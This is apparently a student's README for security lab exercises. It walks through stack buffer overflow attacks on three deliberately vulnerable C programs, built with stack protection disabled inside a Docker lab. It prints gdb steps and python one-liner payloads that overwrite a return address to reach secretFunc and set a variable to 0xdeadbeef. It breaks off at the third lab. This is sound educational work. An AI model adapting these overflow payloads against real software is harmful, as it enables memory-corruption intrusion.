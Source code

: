 # Lab#1 Conduct buffer overflow attack .
## Prepared the eviroment .
  1. Open your Docker Destop
  2. Choice the folder contain file lab and open Terminal
     
      ```bash
      git clone https://github.com/quang-ute/myprojects
      ```
      and after that:
     ```bash
     cd myprojects
     ```
  3. Build the image `img4lab` by Docker
     ```bash
     docker build -t img4lab .
     ```
     and run docker container
     ```bash
      docker run -it --privileged -v $HOME/seclabs:/home/seed/seed@ img4lab
     ```
  4. On `seed@...`
     ```
     cd seclabs
     ```
     create a new direction named `bof`
     ```bash
     mkdir bof
     ```
     and after that:
     ```bash
     cd bof
     ```
     and Open you VSCode -> Connect to WSL -> Open folder `bof`  and catch file bof1, bof2, bof3 from `https://github.com/quang-ute/Security-labs/tree/main/Software/buffer-overflow`
## Attack ( BOF 1 )
![image](https://github.com/user-attachments/assets/3ca0dd01-c5b1-4abd-adcb-757f64f60c0d)
If an attacker supplies more input than the buffer array[200] can handle, they could potentially control the flow of the program and execute unintended code.

1. On `/seclabs/bof$`
   ```bash
   gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
   and load bof1.out in gdb
  
    ```bash
    gdb bof1.out
    ```
  2. Use the disassemble command to display the assembly code
     ```bash
     disas secretFunc
     ```
     ![image](https://github.com/user-attachments/assets/7ee1e5e0-441a-4a39-9a40-bb98f3545acc)
  
  The secretFunc() memory region is `0x0804846b`
  3. Input 'a'*204 followed by `0x0804846b`
     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
     ```
       ![image](https://github.com/user-attachments/assets/a93df09c-aaec-4d0d-8bb4-f96f3cb402b4)
     To remove the Missing arguments line, add any value at the end of your command

     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out 120
     ```

     
     ![image](https://github.com/user-attachments/assets/3074ef1f-1809-45df-b5aa-61ef31dffcff)

  ## Attack ( BOF 2 )
  
  ![image](https://github.com/user-attachments/assets/fddde23e-e6fd-4c80-bddd-f2250f004701)

> Since buf is only 40 characters in size, but fgets allows input of up to 45 characters, this can overwrite the memory after the buf array, including the check variable. If you enter enough data to overwrite the value of check, you can change it to 0xdeadbeef, leading to the condition being satisfied and printing the winning message.

1.  On `/seclabs/bof$`
   ```bash
   gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
  
2. 

```bash
 echo $(python -c "print('a'*40)" + '\x01\x02\x03\x04' ) | ./bof2.out
```

Terminal will be return  `You are on the right way!`
![image](https://github.com/user-attachments/assets/83deaff6-f75f-46f9-8fdf-8dce2ad89d7a)


If you want to print `Yeah! You win!`
echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde' )") | ./bof2.out
![image](https://github.com/user-attachments/assets/57848a21-9021-4c9c-994a-555c01043102)


 ## Attack ( BOF 3 )    
The first of all, you have to run 
```bash
objdump -d bof3.out | grep shell
```


 ![image](https://github.com/user-attachments/assets/2298c0b9-23b6-4bd3-b4fb-31c653e51de7)

